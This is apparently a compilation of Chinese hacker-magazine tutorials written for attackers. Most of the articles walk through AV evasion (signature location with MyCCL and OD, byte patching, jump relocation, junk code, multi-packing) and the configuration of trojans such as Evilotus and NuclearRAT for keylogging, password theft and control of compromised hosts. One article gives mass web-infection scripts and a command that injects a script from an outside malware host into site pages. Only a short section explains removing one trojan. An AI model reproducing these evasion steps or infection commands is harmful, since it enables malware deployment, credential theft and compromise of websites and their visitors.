充分利用数据来掩盖特征码段以达到免杀的效果：用你指定的数据（默认是 00，主要的目的是改变它的特征码，因为杀毒软件通常不会将特征码定位在 00 上）填充程序的一部分。比如你把分块个数设置为 4，那么就会生成 4 个“完整”的文件，但每个文件都会有不同的 1/4 内容改用 00 来进行填充。然后使用杀毒软件进行查杀，没有报毒的文件就证明特征码在这个文件 00 填充的位置里。划分得越多，定位的数据就越精确，大家可以根据习惯和电脑的性能填写，当然也并不是越多越好。我填的是 100。需要注意的是：开始位置的数据是 E0，这个借鉴了前辈 CCL 在免杀过程中出现的问题。CCL 之所以会出现特征码虚报，是因为有些木马的特征码并非在 PE 头，但是经由 CCL 定位出来却是在 PE 头上，很重要的原因就是杀毒软件使用的一个小伎俩。当 PE 头所属的一个部分被改变以后（大部分是填充为 00），程序就不能运行（当然，PE 头是可以改变的，需要改变的数据是有规律的，而不是这种随意的填充）。杀毒软件只检查了 PE 头后就不再往下扫描了，自然也就不会报毒了。还有就是单一定位和复合定位应该如何选择呢？其实从表面的意思就知道了，当木马具有多重特征码的时候就使用复合定位，不知道特征码到底有几个的时候建议使用复合定位。至于正向和反向，相信大家应该了然于胸了吧。

刚开工的时候还真不知道从哪里入手，参数该怎么填写呢？没关系，我们慢慢来认识这个貌似神秘，却非常实用的工具。我就以彩虹桥 V1.2 为例，这是一个能躲过卡巴查杀的木马。首先当然是配置木马服务端了，这个木马的服务端配置还是比较简单的（图2），不过，木马的配置及使用并非本文的重点，就此略过。

配置好的木马服务端马上就被卡巴查杀了，如图3，卡巴这种棒打出头鸟的原则在彩虹桥上又一次得到了印证。本着搞死卡巴的精神，下边开始介绍免杀工具 MyCCL 的用法。

打开 MYCCL，点击“文件”载入彩虹桥，在下方的输出框内显示的是文件的最初数据（图4），“归类”选项是选择生成掩盖了某个数据段的木马文件。为了更好地理解，先来简单介绍一下 MyCCL 的免杀原理。MyCCL 是利用某块的数据填置归类，点击生成后，就会在你选择的目录下生成相应数目的文件。然后我们就开始用卡巴扫描生成木马的文件夹，扫……

挖完以后直接查杀。然后点击“二次处理”（图5），生成新的文件，再用卡巴对文件夹进行查杀（图6）。我们重复这个过程，直至生成的文件卡巴不会报警了，这时点击“特征区间”，就会看到定位的特征码了（图7、图8）。

……经过一番反复的定位之后，特征码出来了：`0000048E_00000002` 和 `0000673E_00000002`（图9、图10）。

彩虹桥 V1.2 的卡巴特征码有 2 处：`000002D2_000001F2` 和 `00006608_000001F2`，这么大块的特征码我们如何进行修改呢？所以还需要进行更详细的定位……

接下来就是我们免杀的另外一个核心了——修改特征码。首先把 2 个特征码都填充为 0，结果证实失败（图11）。

> 1.exe 遇到问题需要关闭。我们对此引起的不便表示抱歉……

那么我就只能一个一个地修改了，首先是 `0000048E_00000002`，将它填充为 0 后测试一下。修改前如图12，修改后如图13（使用 UE 打开文件进行修改）。

```hex
00000450h: F6 F6 F6 ...
00000460h: C4 F6 F6 ...
00000470h: F6 F2 F6 ...
00000480h: F8 F6 F6 ...

图12
```

```hex
00000430h: F6 F6 F6 ...
00000440h: F5 9E F6 ...
00000450h: F6 F6 F6 ...
00000460h: C4 F6 F6 ...

图13
```

经过测试，正常地上线了（图14）。

那么下一个特征码 `0000673E_00000002` 使用 00 填充肯定是不行的了，因为前边 2 个都填充 00 时，文件坏掉了。那么，应该如何修改呢？使用 C32ASM 将文件载入（使用 OD 也行，不过要换算内存地址，如图15）。

```asm
... 0000673E ...
... 指令与偏移定位 ...

图15
```

我的修改方法是调换 673D、673F 的位置，修改前后如图16。经过卡巴测试，修改后免杀并且正常上线（图17）。

```asm
... 修改前后字节与指令对比 ...

图16
```

就这样，我们完成了一个木马的免杀过程。定位特征码的方法大家都已经学会了，定位后的修改就需要大家的耐心了，常用方法就是使用 00 来填充，当不行的时候可以试试调换一下语句的位置，或是修改一下跳转。

MyCCL 还带有一个 TK_LOADER，用于辅助定位内存特征码。打开 TK_LOADER，双击最上面的文本框即可选择要载入文件目录。选择木马文件进行载入，如果这个文件夹下的文件都是木马的话就点击全部载入，载入到内存（图18）。TK_LOADER 与 MyCCL 的设置和操作过程大体一样，但是必须注意的是，把“滞后缀”选上，否则 TK_LOADER 将无法载入，这是与普通文件定位区别的地方。然后使用杀毒软件的内存查杀功能，步骤和文件定位差别不大，这里就不赘述了。

时间飞逝，想象的翅膀已经离飞，相信大家已经遨游在免杀的奇妙世界里了，但是要记住那句明珠——MyCCL。

## 菜鸟的木马守望者

N.T

木马灰鸽子早已名声在外，而且其源代码也曾经公布过，所以在网上有不少灰鸽子的近亲，但其中大部分都是加个新壳、改个版权什么的就拿出来招摇过市，但其中也有几款很不错的木马，像我今天要介绍给大家的守望者 2007，就继承了灰鸽子的界面和部分功能，还有着自己的鲜明特点。

打开守望者 2007D 的主界面，使用过灰鸽子的朋友一定都很眼熟吧，同灰鸽子很相似，因此很容易上手（图1）。

先来配置服务端，守望者的服务端配置大大简化了配置界面，而且还有两种区别于灰鸽子服务端的启动方式（图2）。

在 URLTOIP 栏中输入的是转向域名，也可以是网页文件；而 DNS 解析栏可以输入域名或是 IP 地址。来看一下启动模式设置，一共有三种，分别是 Svchost 模式、Winlogon 模式和传统服务模式。前两个都是通过替换以 Svchost 加载 DLL 的服务来启动的方式，不同的是一个植入 Svchost，一个植入 winlogon。第三种是作为传统服务方式来启动。

Winlogon 是什么呢？Winlogon.exe 是 Windows NT 登录管理器，用于处理系统的登录和登录过程。所以，跟着这位大哥进进出出，被发现的机会非常少。再有一个就是 Svchost，有很多病毒、木马都是利用的 Svchost。Svchost 为什么被这么多人看好呢？这是因为 Svchost 是作为服务宿主，并不实现任何服务功能，需要 Svchost 启动的服务以动态链接库形式实现，在安装这些服务时，把服务的可执行程序指向 Svchost，启动这些服务时由 Svchost 调用相应服务的动态链接库来启动服务，这样就可以实现隐藏自身了。传统服务模式就是把服务端用服务的方式启动和隐藏。

建议大家选择前两种的启动方式。在功能附加设置中有一个内存整理，可以实现每 15 分钟对内存进行一次清理（给自己排一个，以便自动清理内存 ^-^）。“加载插件”可以让我们方便地加载灰鸽子的插件。如果我们想要自己的控制软件有更多的功能，就可以使用别人开发好的插件，使我们的木马功能更加强大。

来说说更新域名，守望者可以更新动态域名（域名是希网的）和转向域名（类似 126 域名），如图3。

守望者 2007 的远程控制和灰鸽子差不多，就不一一介绍了。其中的“清空入侵记录”和“主机转借”是两个非常不错的功能，主机转借的格式为 `192.168.0.1:8000\123456`，意思是把选定的肉鸡转借给 192.168.0.1，端口是 8000，肉鸡密码为 123456（图4）。

好了，关于守望者 2007 的配置就介绍到这儿，对于使用过灰鸽子的朋友来说，多用几次就可以非常熟练地掌握它的使用了。

## 从灰鸽看金山主动防御流氓杀法

小鱼

一日，一朋友找到我，让我帮他制作灰鸽子免杀，好躲过金山的查杀。这应该挺简单的呀，简单制作一下就应该可以通过了。朋友将驱联好的服务端传给我后，我取出 MYCCL 就开始定位灰鸽子特征码，顺利地找到后，加以修改发现金山不报毒了，就传给了朋友。但过了一会儿朋友就告诉我说，虽然金山检查文件时不会报告病毒，但是一运行程序就会被查出来。

我随后自己也使用灰鸽子配置了一个服务端，按刚才的方法做好文件免杀后在本机运行，使用最新的金山 2007 来查杀，果然被干掉了。我到百度搜索了一下，发现金山 2007 原来是加了一个新功能——“数据流”查杀。这里所谓的“数据流”是不是和瑞星一样使用的虚拟特征码呢？我马上拿出 CCL 开始定位特征码，但想不到的是，在定位的时候金山直接把 MYCCL 给咔嚓了，看来金山对 MYCCL 进行了处理，只好使用 OD 载入，用一半一半法来定位了。

所谓的 OD 一半一半法，就是使用 OD 载入木马后，把它的区段分为两部分，然后 NOP 掉一半，再开启金山进行查杀模式，也就是内存查杀，看能不能查到。如果能查到病毒，就说明特征码还在没 NOP 掉的那一段；如果继续把没有 NOP 掉的那一段再分为两半，也就是整个区段的四分之一 NOP 掉，接着查毒。反之就是对 NOP 掉的那一段还原，再一半一半地定位查找。这样经过漫长的定位后终于找到了特征码，修改特征码后进行测试，发现金山不再查杀了。

难道是我的分析错了？金山和瑞星不一样？最后发现金山报的是安装后释放的那个 DLL 文件……接下来就是对这两个 DLL 文件进行文件和内存的相关处理，使用 Restorator，把主程序中的服务端导出其中的 MAINDLL.dll 文件，再用 Restorator 打开 MAINDLL.dll，再导出其中的 GETKEY.dll 文件……

想想我定位、修改的过程都没有错，而且切切实实不再报毒，为什么一用 OD 载入就会报毒呢？会不会是和我使用 MYCCL 定位有关系呢？抱着怀疑的心态我又用 OD 一半一半法重新定位了特征码后进行修改，这次金山终于老实了。看来 MYCCL 在定位灰鸽子的金山特征码上存在问题。把 MAINDLL.dll 导入服务端，一个真正的金山免杀灰鸽子就算做完了（图3）。

**X编辑：** 这篇文章的重点并不是工具的使用，而是作者在制作免杀过程中遇到问题，并最终解决的经验之谈。要完全看懂本文还需要一些免杀的基础知识。

## 特别的过卡巴主动防御木马-Evilotus

豆豆

国内的灰鸽子、Pcshare 等都是不错的木马，灰鸽子功能多，Pcshare 生成的服务端体积小。不过这些马都已经被各大杀毒软件盯紧，像我等小菜，就算加壳、加花指令躲过了查杀，也很难躲过卡巴的主动防御。近日，国内又出了一款新马，不但能逃过查杀，而且还能躲过卡巴的主动防御，我们就一起来看看这款优秀的远程控制软件 Evilotus 吧！

### 一、配置服务端

打开 Evilotus，选择“配置被控端”标签，在“连接地址”栏输入静态 IP 地址或动态域名，“连接密码”内输入控制密码，“连接端口”为本地监听端口，可选择一个本地没有被占用的端口；“安装 DLL 名”是在被控端释放的 DLL 文件名，可根据自己的喜好随便命名。Evilotus 是依靠服务启动的，在“安装服务名”“服务显示名”“服务描述”中分别输入配置信息，全部配置完毕后点击生成。

### 二、客户端各功能展示

我们以内网的一台电脑为例，在内网肉鸡上打开卡巴的所有主动防御功能，然后双击我们配置好的服务端程序……点击右键可以看到控制菜单，点“接入管理”后，转到“远程管理”标签，我们就能正式管理肉鸡了。Evilotus 的控制功能和大多数木马大致相同，我主要讲一下 Evilotus 特有和实用的功能。

Evilotus 的文件管理功能可以说非常强大，除了基本的“复制”“删除”“上传”等，还支持文件打包，这个可以说是国内首创了。如果想下载对方主机上的大文件到本地，“打包”功能就非常实用，可以减少传输时的网络流量（图4）。右键选择要打包的文件或文件夹，选择“打包”，就会打包成 packed.pak 文件。我们也可以打包上传，选择“选项设置”标签，在“打包文件”中选择要打包的本地文件夹，而“解包文件”是为了把服务端传送下来的打包文件恢复，如图5。文件传输过程中，还支持“断点续传”，方便我们多次传送文件。

卡巴没有一点提示，Evilotus 成功绕过了卡巴的主动防御。接下来我们看看客户端都提供了哪些功能，先来配置一下客户端的一些信息。来到“在线主机”标签，在最下面输入我们刚才配置服务端时对应的端口号和连接密码，然后勾选上“监听本地端口”，不一会儿，就有肉鸡上线了，如图3。

键盘记录、剪切板这两个标签主要用来偷窥对方隐私，键盘记录可以记录中文，这个功能还是非常实用的。

## 驭马记

国外的远程控制软件对中文记录的支持都不是很好，只能记录字符，不方便我们查看。Evilotus 记录的效果也是非常好的（图6）。

对于 QQ 密码采用中文的肉鸡，通过查看剪切板，常常能得到有意思的信息哦。在“系统”标签下，我们还可以管理肉鸡的账号信息，比如修改账号密码，这在国内的远程控制软件中很少见（图7）。

## 三、手动查杀

目前为止，Evilotus 还不被杀毒软件查杀，在这种情况下，我们就要依靠自己的双手来清除服务端了。由于此软件是依赖服务启动的，所以我们打开 Windows 的服务管理器，寻找可疑的服务进程。

Evilotus 和国内许多木马一样，是依靠 svchost.exe 启动后门文件的。我们打开注册表，来到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\` 对应的服务项下，查看 parameters 项的内容，就能很容易知道后门文件的路径和名字了（图8）。此时直接删除是行不通的，我们可以借助冰刃来删除。打开冰刃定位到包含后门文件的 svchost.exe 进程，利用冰刃卸载此模块（图9），然后再删除服务、文件，重启后木马就从你的电脑里消失了。

## 脚本后门批量挂马

拿到 WEBSHELL 想干吗？当然是挂马了，这年头没有几只肉鸡可不好过日子啊。倘若我们碰到的是一个虚拟主机，要想一个个将上边所有网站都挂上马，那是相当令人抓狂的。运行批量挂马程序？只得到 WEBSHELL 就想运行程序？你想得美！那怎么解决呢？其实脚本后门也是可以进行批量挂马的，因为脚本也是程序，同样可以运行在服务端，可以自动进行写文件操作。

## ASP 版本

ASP 批量挂马脚本程序使用了 FSO 对象进行写文件，还可以针对某些文件进行挂马，比如针对文件名或者扩展名，达到了高度智能化挂马，其代码如图1所示。

- 最上方标出的区域表示针对这些字符开头的文件进行挂马操作，字符与字符之间使用“|”进行分隔，比如要针对 admin 和 manage 字符开头的文件进行挂马，改成“admin|manage”即可。
- 中间标出的区域表示针对指定的后缀文件进行挂马，同样字符与字符之间使用“|”进行分隔，比如要针对 asp 和 htm 为后缀的文件进行挂马，改成“asp|htm”即可。
- 最下方标出的区域表示我们挂马的内容，这是关键，我使用了 JS 方式，大家可以自由发挥。

```asp
Sub step_all(agr)
  ' ...
  If retval Then
    step1 agr
    step2 agr
  Else
    Exit Sub
  End If
End Sub

Sub step1(str1)
  ' ...
End Sub

Sub step2(str2)
  addcode="<SCRIPT src='http://...' type=text/javascript></SCRIPT>"
  ' ...
End Sub
```

然后将文件上传到服务端，使用 WEBSHELL 的上传功能就可以。还要得到挂马目录的绝对路径，可以在 WEBSHELL 中得到。在 IE 中执行文件，输入绝对路径，点一个“GoGo”就开始了。系统会自动执行挂马操作，并且显示详细的进程记录（图2），还可以单独审查，点击任意一个链接即可进入此文件的编辑界面，可以查看或更改代码，记得改完后要保存一下。

## PHP 版本

PHP 脚本中使用了 fwrite 方法进行文件写操作，这个版本能够在 IE 中设置挂马目录及其挂马代码，很是方便，而且支持子文件夹。代码中需要修改的地方只有一处：`if(@ereg("index\.`default\.main\.".$file))`。聪明的读者也许已经看出点什么了，不错！在这个地方就可以设置针对哪些文件名进行挂马，如果我们想挂 `manage*.*` 的话，格式就为 `if(@ereg("manage\\.",$file))`。修改完后使用 WEBSHELL 上传到服务端，使用 IE 访问（图3）。

填写挂马的目录，此目录可以为绝对路径或者相对路径，在挂马代码输入框中输入你的代码。同样我使用的是 JS 方法，点击“提交”就开始执行了（图4）。

## VBS 版本

VBS 脚本使用的方法跟 ASP 脚本相似，也是使用 FSO 对象，而且支持子文件夹，其代码如图5所示。

- 图中第一个标注的区域为你要写的代码，我这里使用的是 JS 脚本。注意代码中的双引号必须使用 `"` 与 `chr(34)` 等方式处理，以避免出错。
- 图中第二个标注的区域为进行挂马操作的文件名，也就是想对哪些文件进行挂马，注意 `\` 和 `*` 作为通配符。

修改完后把文件上传到服务器的任意目录中，打开 WEBSHELL 的执行页面，我以海阳来做演示，在命令栏输入：

`cscript D:\wwwroot\PowerEasy\mm\9day\mm\vbs.vbe D:\wwwroot\PowerEasy\mm\9day\`

第一个参数为 VBE 文件的绝对路径，第二个参数为挂马的目录（图6）。

## CMD 版本

可能菜鸟会问，CMD 下还是脚本吗？这个当然不是。那为什么还拿出来介绍呢？因为这个可以运行在 WEBSHELL 中，类似于 VBE 的执行方式。此程序可以挂马的文件名为 index、default、main，后缀为 asp|jsp|php|asp|html|htm 的文件，并且可以自定义路径。

我们直接将文件上传到可执行目录，并记录其绝对路径。我运行的命令为：

`D:\wwwroot\PowerEasy\mm\9day\mm\gm2.exe "D:/wwwroot/PowerEasy/mm" "<SCRIPT src=\"http://54jj.cn/mm.js\" type=text/javascript></SCRIPT>"`

第一个参数为指定挂马的绝对路径，第二个参数为挂马代码。需要注意的是，代码中双引号前加一个“\”转义符号，以避免出错（图7）。真是条条大路通罗马呀，小小的挂马都能玩出这么多花样。以后在入侵中一定要发散思维，尝试每条道路，也许下一条就是你通向 SYSTEM 的道路哦！

（本文所涉及到的挂马程序已收录到光盘中）

## 免杀集合的妙用

LEON（林井超）

这天 QQ 上的好友梦工厂给我发来消息，传过来一个叫作 X-way 的扫描工具，问我会不会使用。这个傻瓜化的工具使用起来当然是小问题，可还没等我使用，金山就报告说是病毒，把 X-way 给删除了（图1）。X-way 可不是病毒，事实上 X-way 是一个功能非常不错的扫描工具，集成了许多实用工具，类似于流光，所以我决定给这个软件做一个免杀。

先来讨论一个问题，在制作免杀前是先加壳还是先加花指令？其实这都一样，没有什么区别，关键是最后制作出来的程序要免杀（X 小编：这要看你加壳的目的，如果是为了压缩版杀毒，就没什么问题；如果是免杀，还是建议先加花指令）。我的思路是这样的：先检查空壳，如果有壳的话先脱壳，然后手工加花、加壳、修改入口，用 FREERES 做双重加壳。

### 一、脱壳加花

运行 PEID，直接把 X-way 的图标拖到 PEID 上，就可以查出软件所加的壳了（图2）。

X-way 加的壳是“Aspack 2.001 -> Alexey Solodovnikov”。本文的重点是如何免杀，因此就不对脱壳进行过多描述了。好在这也是一个老壳，我们从网上搜索一下，就可以找到相应的脱壳工具，我把脱壳后的程序保存为 1.exe（图3）。

下面开始手工加花。手工加花首先要增加区段，然后在新增区段中修改，最后改程序入口点就好了。打开 ZERO ADD，在 PICK A FILE 里选择要增加区段的文件，第2行输入要增加区段叫什么名字，第3行输入增加区段的大小，我填的是 100，区段叫 .date，完成后按 add new section（图4）。

打开 OD，载入增加区段后的 1.exe，按 Alt+M 弹出内存框，可以在区段一栏看见有我们刚刚增加的 .date 区段，找到文件名 1 对应的 .date 区段（图5），最前面的地址 0058C000 就是我们增加区段的开头地址。

按 Alt+C 回到 CPU 窗口，按 Ctrl+G 输入 0058C000，跳转到了 .date 区段，依次输入如下代码（图6）：

```asm
push ebp
mov ebp, esp
push 1111
push 2222
push 321
nop
nop
push ebp
mov ebp, esp
add esp, -0C
jmp 0051A08A
```

完成后保存文件，然后使用 LordPE 工具把入口点改成 .date 区段的起点 58C000，点 PE 编辑器，选择要修改文件，更改入口点，最后保存。检查程序依然可以正常运行，说明我们可以继续免杀下去。

### 二、加多重壳免杀

这个步骤最为简单，只要使用多个工具的组合就可以。但注意，我们要加 2 重壳，所以要把壳搭配好。我先用 ASPack2.12 压缩（图7），再测试，程序还是可以正常运行。

现在 X-way 已经躲过了金山的查杀。我将其传给 QQ 上的好友 FISH，他使用瑞星一扫描，马上就显示出病毒，所以还要继续免杀。以前的黑客 X 档案上曾说过入口点 +1 的免杀方法，也就是在原入口地址加 1，这样杀毒软件查到的壳不是原来的壳了，也就躲过了查杀。我再次使用 LordPE 打开文件，发现入口点变了，新的入口是 0018D001，改成 0018D002 后保存。当然，光一层壳是不够的。

以前的 X 档案上也提到过用 FREERES 释放压缩资源再加壳免杀的方法，我也是使用这种方法。打开 FREERES，载入压缩过的程序，会提示程序经过压缩（图8），选择“是”，就载入了程序。然后在功能中选择“建立可编辑资源”就可以再加壳了。我用北斗 3.6 破解版的壳加了上去（图9）。现在此软件具有了：加花、ASP2.1 壳、入口 +1 和北斗 3.6 壳。按理来说，已经过了所有杀毒软件的查杀。

### 三、简单改造北斗 3.6

老样子，使用 OD 载入。根据沙漠之狐说的 ADD 命令和 SUB 命令互换原理，我仅仅修改了两个地方：005DB6CE 改“sub ebp,7”为“add ebp,-7”；005DB74D 改“add edi,4”为“sub edi,-4”，最后保存。做好的软件过了 MACFEE、金山、卡巴、瑞星。

好了，本次免杀还算成功，把软件发到了 QQ 群共享。同时，我们在做免杀的时候，要多注意各种方法的结合，只有这样才能让我们的东西在世界上呆得更久。欢迎大家到黑 X 官方论坛探讨技术，我的 ID 是 LEON。

（本文所涉及到的 ASPack 的脱壳机、OllyICE、PEID、ZEROADD、ASPack2.12、北斗3.6 和免杀的 X-way 已收录到光盘中）

## 国外的牧马

天涯衰草

当小菜们为网络上隔三差五就会推出一款新的国产木马而欢欣雀跃时，有没有发现这些木马不论是在功能上还是在界面上，都“长”得差不多呢？这确实是一个值得思考的问题。菜鸟们需要的不仅仅是“量”，更需要“质”。那么如何才能使国产木马有更多创新内容呢？我想吸取国外优秀木马的技术特点或许是一个很好的方法。今天我就为大家介绍一款全新的木马程序，它不仅采用了很多主流技术，还拥有大量原创内容，它就是国外木马——NuclearRAT。

### 一、配置服务端程序

虽然 NuclearRAT 是一款国外木马程序，但是国内木马爱好者已经将其汉化了，这使得我们的操作非常方便。首先点击工具栏中的“创建服务端”按钮来配置服务端程序。NuclearRAT 木马的服务端创建窗口中的内容相当丰富，包括连接设置、文件名称、杂项、信息框、插件等相关选项。

首先点击“连接设置”，从中我们可以了解到 NuclearRAT 木马采用了正向和反向两种连接方式，而反向连接又可以使用“PHP 解析 URL”和“连接 DNS”两种方式。我采用的是 DNS 这种方式，在“连接 DNS”选项中设置本地计算机的 IP 地址，接着在“端口”选项中设置用于木马连接的端口。如果用户要采用 PHP 这种方式，也就是我们常见的网页连接，就需要在“PHP 解析 URL”选项中设置相关网页地址，然后选中下面的“URL 重定向服务器”选项，如图1。至于正向连接，只需要设置连接密码和连接端口即可。

接着切换到“文件名称”选项，在这里我们设置服务端程序安装的文件名称、DLL 文件名称、安装目录等内容。NuclearRAT 木马为用户准备了多种安装目录选择，比如木马默认的“%w\NR”就表示系统目录中的 Windows 文件夹。如果用户需要采用其它文件目录，可以点击后面的“？”进行查询。线程插入是目前大多数木马所采用的绕过防火墙的方法，木马默认将服务端程序进程插入到系统默认浏览器进程中。用户同样可以点击后面的“？”来查询，使得服务端程序可以插入到其它进程中。点击“启动”按钮可以设置服务端程序的启动方式，木马为用户提供了三种启动方式，包括 SHELL 启动、ActiveX 插件启动以及常见的注册表启动，如图2。点击“杂项”标签，这里包括“删除自身”“创建不插入进程的服务端”以及“创建混合型服务端”等选项，用户可以根据自己的需要进行设置。所谓“混合型服务端”，就是同时支持正向和反向连接的服务端程序。点击“信息框”标签，这里主要用于设置木马运行后的提示信息。这个信息主要用于迷惑用户。点击“插件”标签，用户可以在此添加更多插件，使木马功能更加强大。但是为了减少服务端程序体积，我们就不进行插件捆绑了，可以在以后需要时再进行添加。所有配置完成后，点击“创建”标签就可以生成我们所需要的服务端程序了。

### 二、配置客户端程序

不管用户采用的是哪种连接方法，在进行连接前都需要进行客户端设置。点击工具栏中的“连接管理器”按钮，在弹出的“连接管理器”窗口中进行设置。如果用户采用的是反向连接，就需要在此设置网络空间的 FTP 信息。即使是采用 DNS 反向连接，也需要在“监听端口”选项后的参数上点击鼠标右键，然后在弹出的“编辑数据”菜单中进行更改。除此以外还可以设置启动声音、正向连接密码、上线发出警报等信息，如图3。设置完成后点击窗口下方的“GO”按钮进行确认，然后就可以静等反弹连接的服务端程序自动上线。

如果采用的是正向连接方式，用户只需要在操作界面工具栏中的“IP”选项后输入远程计算机的 IP 地址和连接端口，并且在 IP 地址和端口中间用“:”隔开，最后点击工具栏的“Connect”按钮即可进行连接。

### 三、远程控制操作

当服务端程序被安装到远程计算机时，稍等一会儿服务端程序就会自动上线了。从“上线主机”列表中选中上线的远程计算机，接着双击确认，准备开始控制远程计算机，然后就可以通过菜单栏中的控制命令进行各种控制操作。

首先点击“间谍”菜单下的命令，包括桌面捕捉、摄像头监控、键盘记录和计算机信息等。点击“桌面捕捉”命令，就可以在弹出的“桌面捕捉”窗口进行捕捉操作了。点击菜单栏中的“捕捉”按钮进行捕捉，默认情况下程序每次都捕捉一张远程桌面的图片；不过木马的捕捉速度非常快。如果要进行连续捕捉，就需要选中“选项”菜单下的“刷新画面”命令。除此以外，通过“选项”菜单下的“启动鼠标点击”命令，可以对远程桌面进行管理操作，就像在本地计算机中进行操作一样。还可以设定捕捉屏幕大小，以及定时对远程屏幕进行捕捉操作，如图4。

点击“间谍”菜单下的“键盘记录”命令，用户就可以监控远程计算机的键盘操作情况。点击“开始”按钮就可以立即截获当前远程用户的键盘记录；通过“记录键盘敲击”选项可直接保存到本地计算机中。另外 NuclearRAT 木马的键盘记录功能还有一个亮点：我们知道要想进行键盘记录操作，字符集可以更好地显示出相应字符。目前 NuclearRAT 木马支持 GB2312_CHARSET、CHINESEBIG5_CHARSET 类型的字符集，用户可以根据自己的需要选择不同字符集。不过由于这是一款国外木马程序，虽然字符集非常丰富，但是依然不支持对中文字符的记录，如图5。

“管理器”菜单下同样包括多个命令，分别是文件管理器、窗口管理器、进程管理器、注册表管理器以及插件管理器等。“文件管理器”的用法与大多数木马相同，其中有个文件搜索功能，通过它就可以在远程电脑中快速搜索需要的文件，使用方法也和本地电脑的文件搜索一样简单，如图6。

通过“窗口管理器”可以及时查看远程桌面的窗口情况，可以对窗口进行最大化、最小化、关闭、隐藏、显示等操作，如图7。另外还可以禁用某个指定窗口，或者将某个窗口设置为新的当前窗口，对选中窗口的标题栏进行更改，并能通过键盘发送大量指令等操作。

通过“进程管理器”可以查看、刷新、关闭对方的进程。另外，这个木马还……

## 牧马记

有一个很特别的功能——“插入服务端到这个程序”。如果我们在配置服务端程序的时候没有选择线程插入功能，就可以现在进行插入设置，如图8。并且当选中某个进程后，点击“模块”标签还可以查看该进程中的线程情况，卸载其中不需要的 DLL 文件。

现在我们再来看“控制”菜单中的命令，包括鼠标、脚本生成器、屏幕分辨率、WEB 服务器等。通过脚本生成器命令窗口，用户可以编写一些脚本或批处理文件，从而对远程计算机进行控制。程序编写完成后，可以先点击“测试”按钮在本地进行测试，然后再通过“执行”按钮来远程执行，并且还可以对脚本的运行方式进行设置，如图9。


“远程 Shell”命令可以直接在客户端程序中模拟出一个远程命令提示符窗口。另外，通过“鼠标”可以控制远程计算机的鼠标运行。该功能并不是用户直接通过本地鼠标进行控制，而是设置鼠标在远程桌面的坐标位置。除此之外，还可在本地架设 WEB 服务器，在远程计算机上打开 Socks5 端口以及更改远程屏幕分辨率等。


通过选择“更多”菜单，我们还可以享受到其它控制命令，比如消息框、WEB 下载者、扫描器、对话、端口重定向等命令。由于 NuclearRAT 支持正向连接方式，所以通过扫描功能可以快速扫描到安装有服务端程序的远程计算机。用户只需要在“起始 IP”和“终止 IP”设置扫描地址段，并在“端口”选项中设置端口后点击“扫描”即可。

Shell 执行命令类似于开始菜单中的“运行”命令，可执行一些在 Windows 环境中无法直接执行的命令和程序。还可在窗口状态选项中设置执行窗口状态。“端口重定向”命令相当于端口映射功能，可将本地计算机某端口映射到远程计算机，便于内外网数据交换，实现部分网络服务功能。

### 四、小结

到此为止，关于 NuclearRAT 木马的主要功能就介绍得差不多了。从上面的介绍我们可以看出，NuclearRAT 木马不仅采用了大量成熟的木马技术，并且在每一项控制功能中都加入了自己的想法，这样就使得用户在操作上显得更加方便。

> （本文所涉及到的 NuclearRAT 已收录到光盘中）

## 我们倡议改特征码

第二期杂志中详细讲了如何定位特征码，但如何修改这一步却未细说。这次将介绍一种普遍的修改方法，而且比较适合菜鸟——指令跳转法修改特征码。下面以上兴为例，详细讲解修改方法。

首先生成上兴 2007 的服务端，生成时不要加壳。接下来对服务端进行查毒，以确定特征码（图1）。


经 MYCCL 定位上兴无壳服务端卡巴 6.0 的病毒库特征码结果如下：

| 特征码偏移地址/物理长度 |
| --- |
| 特征码1：00098B92 00000002 |

修改特征码先要将“文件偏移量”转化成“内存地址”，使用“OC 偏移量转换器”转换地址。选择上兴服务端，左侧填入定位出来的特征码 [00098B92]，然后按右箭头，得到内存地址 [00499792]，这个地址就是修改特征码的内存地址（图2）。


指令跳转法修改特征码其实就是把特征区域代码转移到空白区域的一个过程，有些类似加花的过程。具体流程如图3。


X 档案讲解了如何使用 MYCCL 定位特征码，我在此补充两个技巧：

- 1. 定位选项一般为“复合定位”，现在杀毒软件基本上使用复合特征码。
- 2. “分块个数”不宜过多，数值为 100 最佳。

## 躲马记

使用 ODbg（OD）载入上兴服务端，跳转到特征码的内存位置，`Ctrl+G` 输入 `[00499790]`，然后 Enter 到达图4的黄色区域。

```asm
0049978C  8D4424 08    lea eax,dword ptr ss:[esp+8]
00499790  50           push eax
00499791  6A 06        push 6
00499793  68 3CC04900  push rejoice_.0049C03C
00499798  FF15 30C84900 call near dword ptr ds:[49C030]
0049979E  85C0         test eax,eax
```

```asm
0049978C  8D4424 08    lea eax,dword ptr ss:[esp+8]
00499790  E9 93076000  jmp rejoice_.00499F28
00499795  90           nop
00499796  90           nop
00499797  90           nop
00499798  FF15 30C84900 call near dword ptr ds:[49C030]
```

图6

记录此处地址，定位特征码说明 00499790 后两字节内为特征码，所以我们选取以下三行为特征区域：

```asm
00499790  50           push eax
00499791  6A 06        push 6
00499793  68 3CC04900  push rejoice_.0049C03C
```

然后在 `[00499F30]` 地址跳回到被我们 nop 掉的代码处：`[00499F30  jmp 00499798]`（图7）。

```asm
00499F30  jmp 00499798
00499F2B  6A 06        push 6
00499F2D  68 3CC04900  push rejoice_.0049C03C
00499F32  E9 63F8FFFF  jmp rejoice_.00499798
00499F35  90           nop
```

图7

`[00499798]` 是特征码区域之后代码的开始地址，也就是跳回地址。右键选择“二进制”使用 nop 填充掉这三行。为保证程序正常执行，再向下拖动到区段最后位置，找到空白区域（图5）。

```asm
00499F26  0000  add byte ptr ds:[eax],al
00499F28  0000  add byte ptr ds:[eax],al
00499F2A  0000  add byte ptr ds:[eax],al
00499F2C  0000  add byte ptr ds:[eax],al
00499F2E  0000  add byte ptr ds:[eax],al
```

图5

我们选择此处：

```asm
00499F28  0000  add byte ptr ds:[eax],al
```

说明：只要能放下特征码的空白区域理论上都可以，但有些木马会由此导致距离较远而造成飞行，影响运行。故回到 `[00499790]` 修改为 `jmp 00499F28`（图6），再回到 `[00499798]`，填回刚才被 nop 掉的部分。

```asm
00499F28  push eax
00499F29  push 6
```

最后保存文件修改部分，卡巴免杀的上兴服务端就制作完成。开启监控和内存扫描同时上线，如图8所示已经免杀。


本文只演示了一处特征码的修改，含多处特征码亦可如此修改。

## 菜鸟来打造不死的灰鸽子

